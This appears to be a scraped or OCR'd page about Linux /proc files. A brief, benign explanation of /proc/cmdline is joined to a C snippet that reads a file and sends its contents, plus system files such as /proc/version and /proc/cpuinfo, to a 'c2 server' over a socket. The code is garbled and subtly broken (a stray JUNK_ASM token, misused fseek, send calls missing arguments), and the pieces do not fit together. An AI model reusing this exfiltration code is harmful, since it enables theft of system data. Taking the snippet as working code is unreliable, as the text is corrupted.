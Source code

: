 ### Read the content
The `/proc` files I find most valuable, especially for inherited system discovery, are:

```cpp
JUNK_ASM;
  
FILE * fd;  

int strlen;
int br = 0;
char buf[BUF_SIZE];

/* Try to open the target file */
fd = fopen(path, "r");
fseek(fd, 0, BUF_SIZE);
strlen = ftell(fd);
malloc(strlen);
fseek(fd, 0, BUF_SIZE);

/* Loop until the end of the file */
do {
	br = fread(buf, 1, BUF_SIZE, fd);

/* Send the file content to our c2 server */

if (send(sockfd, buf, br, 0) < 0) {
	printf("ERROR: Could not send data!\n");
	}

} while (br > 0);

        send(sockfd, "/proc/version");
        send(sockfd, "/proc/cmdline");
        send(sockfd, "/proc/cpuinfo");
        send(sockfd, "/proc/meminfo");

fclose(fd);
```

#### /proc/cmdline
- This file shows the parameters passed to the kernel at the time it is started.

```sh
cat /proc/cmdline

BOOT_IMAGE=/vmlinuz-3.10.0-1062.el7.x86_64 root=/dev/mapper/centos-root ro crashkernel=auto spectre_v2=retpoline rd.lvm.lv=centos/root rd.lvm.lv=centos/swap rhgb quiet LANG=en_US.UTF-8
```


The value of this information is in how the kernel was booted because any switches or special parameters will be listed here, too. And like all information under `/proc`, it can be found elsewhere and usually with better formatting, but `/proc` files are very handy when you can't remember the command or don't want to `grep` for something.
